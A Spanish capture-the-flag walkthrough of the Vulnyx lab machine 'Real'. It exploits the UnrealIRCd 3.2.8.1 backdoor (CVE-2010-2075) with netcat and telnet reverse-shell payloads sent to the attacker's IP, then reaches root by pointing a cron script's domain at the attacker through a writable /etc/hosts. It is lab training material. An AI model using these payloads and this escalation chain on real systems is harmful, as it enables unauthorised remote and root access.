






# Real — Vulnyx

**Plataforma:** Vulnyx 

**Dificultad:** LOW 

**Vector de acceso inicial:** UnrealIRCd 3.2.8.1 — Backdoor CVE-2010-2075

**Vector de escalada:** Cron job de root + escritura en `/etc/hosts`

---

## Recon

### Reconocimiento de hosts

```bash
arp-scan -l --resolve
```

Objetivo: `192.168.1.38`

### Escaneo de puertos

```bash
nmap -sS -p- -sV -O --open --min-rate 5000 -n -oN scan 192.168.1.38
```



|Puerto|Servicio|Versión|
|---|---|---|
|22|SSH|7.9p1|
|80|HTTP|2.4.38|
|6667|IRC|UnrealIRCd|
|6697|IRC|UnrealIRCd|
|8067|IRC|UnrealIRCd|

### Fuzzing web

```bash
dirb http://192.168.1.38
gobuster dir -u http://192.168.1.38 -w /usr/share/wordlists/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
```

Sin resultados en ninguno de los dos.

### Identificación de versión IRC

El banner de conexión no devuelve la versión directamente. Completamos el handshake IRC manualmente para obtenerla:

```bash
nc -nv 192.168.1.38 6667
NICK test
USER test 0 * :test
```



Versión confirmada: `Unreal3.2.8.1`

Verificamos si el script de Nmap confirma la vulnerabilidad:

```bash
nmap --script irc-unrealircd-backdoor.nse 192.168.1.38 -p 6667
```



---

## Vulns

### CVE-2010-2075 — UnrealIRCd 3.2.8.1 Backdoor

El archivo `Unreal3.2.8.1.tar.gz` distribuido oficialmente entre noviembre de 2009 y junio de 2010 fue reemplazado en el servidor de descargas por una versión modificada. El código insertado escucha cualquier dato entrante en el puerto del servicio IRC y, si comienza por la cadena `AB;`, ejecuta el resto como comando del sistema sin autenticación previa.

---

## Xploit

### Intento con Metasploit

```bash
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.1.38
set LHOST 192.168.1.65
set RPORT 6667
set payload cmd/unix/reverse
exploit
```



El módulo ejecuta el exploit correctamente — el backdoor recibe el payload — pero no se crea sesión. Para entender por qué, capturamos el tráfico en vivo mientras ejecutamos el exploit:

```bash
sudo tcpdump -i eth0 host 192.168.1.38 -A
```



El análisis de la captura revela el payload real que genera Metasploit:

```
AB;sh -c '(sleep 4488|telnet 192.168.1.65 4444|while : ; do sh && break; done 2>&1|telnet 192.168.1.65 4444 >/dev/null 2>&1 &)'
```

Inmediatamente después de enviarlo, Metasploit cierra la conexión con flags `[F.]` y `[R.]`. El proceso que genera la reverse shell nace vinculado a la sesión IRC como proceso hijo. Cuando la conexión se cierra, el sistema propaga `SIGHUP` a todos los procesos de esa sesión, incluyendo la reverse shell, que muere antes de establecerse.

### Solución - Explotación manual con `setsid`

`setsid` crea una nueva sesión para el proceso que lanza, desvinculándolo del proceso padre. Al tener su propia sesión, el cierre de la conexión IRC no le propaga `SIGHUP` y se queda activa de forma independiente.

Listener en Kali:

```bash
nc -lvnp 4444
```

Payload modificado:

```bash
(printf 'AB; setsid nc 192.168.1.65 4444 -e /bin/sh &\r\n'; sleep 3) | nc -nv 192.168.1.38 6667
```

El `sleep 3` mantiene el pipe abierto tras enviar el payload, dando tiempo al proceso desacoplado a establecer la conexión antes de que el pipe se cierre.



Acceso obtenido como usuario `server`.

### Tratamiento TTY

```bash
script /dev/null -c bash
# Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```


---

## Privesc

### Enumeración inicial

```bash
sudo -l          # sin permisos sudo
find / -perm -4000 2>/dev/null   # ningún binario SUID explotable
find / -perm -2000 2>/dev/null   # ningún binario SGID explotable
getcap -r / 2>/dev/null          # sin capabilities
cat ~/.bash_history              # vacío
```

### Usuarios con bash

```bash
cat /etc/passwd | grep bash
```

Solo `root` y `server`.

### Archivos de root con permisos de escritura

```bash
find / -user root -writable -type f 2>/dev/null | grep -v proc | grep -v sys
```

Resultado relevante: `/etc/hosts`, el archivo de resolución de nombres local del sistema tiene permisos de escritura para nuestro usuario, lo cual es poco común.

### Procesos en tiempo real con pspy64

Los crons visibles en `/etc/crontab` y `/etc/cron.d/` no muestran nada explotable. Usamos `pspy64` para monitorizar procesos en tiempo real, incluyendo los que lanza root y no aparecen en los archivos de configuración estándar.

```bash
# En Kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
python3 -m http.server 8080

# En el target
wget http://192.168.1.65:8080/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64
```


Detectamos que root ejecuta `/opt/task` cada minuto. Leemos el script:

```bash
cat /opt/task
```

```bash
#!/bin/bash

domain='shelly.real.nyx'

function check(){
    timeout 1 bash -c "/usr/bin/ping -c 1 $domain" > /dev/null 2>&1
    if [ "$(echo $?)" == "0" ]; then
        /usr/bin/nohup nc -e /usr/bin/sh $domain 65000
        exit 0
    else
        exit 1
    fi
}

check
```

El script hace ping a `shelly.real.nyx`. Si tiene éxito, ejecuta `nc -e /bin/sh` hacia ese dominio por el puerto 65000 (una reverse shell como root). 

El dominio no existe en ningún DNS real, por lo que el ping falla siempre y el bloque `nc` nunca se ejecuta.

Como tenemos escritura en `/etc/hosts`, podemos apuntar ese dominio a nuestra IP. La próxima vez que cron ejecute el script, el ping se enviará a nuestra IP, tendrá éxito, y recibiremos la shell de root.

### Explotación

Listener en Kali:

```bash
nc -lvnp 65000
```

Añadir IP asociada a dominio:

```bash
echo "192.168.1.65 shelly.real.nyx" >> /etc/hosts
```

Cron se ejecuta.


